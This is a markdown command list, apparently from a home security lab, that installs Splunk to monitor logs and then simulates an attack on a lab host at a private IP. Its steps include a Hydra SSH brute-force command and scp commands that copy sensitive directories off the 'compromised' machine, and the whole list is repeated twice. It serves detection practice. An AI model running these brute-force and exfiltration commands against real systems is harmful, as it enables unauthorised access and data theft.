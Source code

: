 
# Commands Used in the Project
### 1. Network Interface Activation

      ifup ens33

Purpose: Activates the network interface named "ens33" and initiates the process of obtaining an IP address through DHCP or static configuration.

2. Splunk Enterprise Download
bash
Copy code
wget -O splunk-9.2.1-78803f08aabb-Linux-x86_64.tgz 'download_link'
Purpose: Downloads the Splunk Enterprise installation package from the Splunk website.

3. Extracting Splunk Package
bash
Copy code
tar -xvzf splunk-9.2.1-78803f08aabb-Linux-x86_64.tgz -C /opt
Purpose: Extracts the downloaded Splunk package into the /opt directory.

4. Starting Splunk
bash
Copy code
/opt/splunk/bin/splunk start --accept-license
Purpose: Starts Splunk Enterprise and accepts the license agreement.

5. Adding Splunk Monitor
bash
Copy code
/opt/splunk/bin/splunk add monitor /var/log
Purpose: Adds the /var/log directory to the Splunk real-time monitoring system.

6. Hydra Brute Force Attack
bash
Copy code
hydra -L username.txt -P password.txt -f ssh://192.168.80.161
Purpose: Uses Hydra to perform a brute force attack against the SSH service of the target machine.

7. SCP Command for Data Exfiltration
bash
Copy code
scp -r lunar@192.168.80.161:/home/lunar/Client_Projects /local/destination
scp -r lunar@192.168.80.161:/home/lunar/Personal_Doc /local/destination
Purpose: Downloads sensitive directories from the compromised machine to the local system using SCP.

Command Titles and Their Purposes
Network Interface Activation

bash
Copy code
ifup ens33
Purpose: To activate the network interface and obtain an IP address.

Downloading Splunk Enterprise

bash
Copy code
wget -O splunk-9.2.1-78803f08aabb-Linux-x86_64.tgz 'download_link'
Purpose: To download the Splunk Enterprise installation package.

Extracting Splunk Package

bash
Copy code
tar -xvzf splunk-9.2.1-78803f08aabb-Linux-x86_64.tgz -C /opt
Purpose: To extract the downloaded Splunk package.

Starting Splunk Enterprise

bash
Copy code
/opt/splunk/bin/splunk start --accept-license
Purpose: To start Splunk Enterprise and accept the license agreement.

Adding Directory to Splunk Monitor

bash
Copy code
/opt/splunk/bin/splunk add monitor /var/log
Purpose: To add the /var/log directory to the Splunk monitoring system.

Performing Brute Force Attack with Hydra

bash
Copy code
hydra -L username.txt -P password.txt -f ssh://192.168.80.161
Purpose: To perform a brute force attack against the SSH service of the target machine.

Data Exfiltration Using SCP

bash
Copy code
scp -r lunar@192.168.80.161:/home/lunar/Client_Projects /local/destination
scp -r lunar@192.168.80.161:/home/lunar/Personal_Doc /local/destination
Purpose: To download sensitive directories from the compromised machine to the local system.

You can format and upload this list to your GitHub repository as a markdown file to showcase your command-line expertise and project workflow.
